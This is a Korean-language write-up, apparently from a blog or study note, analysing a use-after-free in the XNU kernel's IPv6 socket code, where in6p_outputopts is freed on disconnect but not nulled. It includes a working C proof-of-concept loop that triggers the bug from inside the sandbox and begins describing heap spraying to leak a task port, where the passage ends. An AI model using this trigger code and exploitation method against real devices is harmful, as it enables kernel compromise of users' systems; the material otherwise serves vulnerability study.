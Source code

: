 ```c
658: in6_pcbdetach(inp);
  bsd/netinet/flow_divert.c	2694: in6_pcbdetach(inp);
  bsd/netinet/tcp_subr.c	1591: in6_pcbdetach(inp);

void
in6_pcbdetach(struct inpcb *inp);
bsd/netinet6/in6_pcb.c	681: ip6_freepcbopts(inp->in6p_outputopts);

bsd/netinet6/ip6_output.c	3345:ip6_freepcbopts(struct ip6_pktopts *pktopt) definition
```

다시 돌아와서…

여기서 문제는 `inp->in6p_outputopts` 가 해제되지만 NULL로 설정되지 않아 포인터가 재사용될 수 있다는 것이다.

소켓을 파괴하지 않고 연결을 끊으면 이 조건에 도달할 수 있다고 추가적으로 설명되었다.

## 개념 증명 코드

샌드박스 내에서 다음 PoC가 적용된다.

```c
while (1) {
    int s = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);

    // 연결을 끊은 후 (그리고 소켓 옵션을 해제한 후) setsockopt 허용
    struct so_np_extensions sonpx = {
        .npx_flags = SONPX_SETOPTSHUT,
        .npx_mask  = SONPX_SETOPTSHUT
    };
    setsockopt(s, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));

    int minmtu = -1;
    setsockopt(s, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu)); // in6p_outputops 할당
    disconnectx(s, 0, 0);   // in6p_outputopts 해제
    **setsockopt(s, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu)); // UAF 발생**
    close(s);
}

```

# Exploit

## Dangling ptr을 활용한 task port 유출

이제 버그와 트리거 방법을 알았으니 익스플로잇으로 넘어가보자.

이것은 UAF 버그이므로 "힙 스프레이"라는 기술이 사용된다.

UAF된 객체는 해제되었는데, 해제된 메모리와 해제되지 않은 메모리의 차이는… 무엇일까?

해제된 메모리는 재사용될 수 있다. 다음 할당이 해제된 객체가 있던 동일한 주소에 끝날 가능성이 있으며, 이런 식으로 해당 객체의 데이터를 제어할 수 있다.
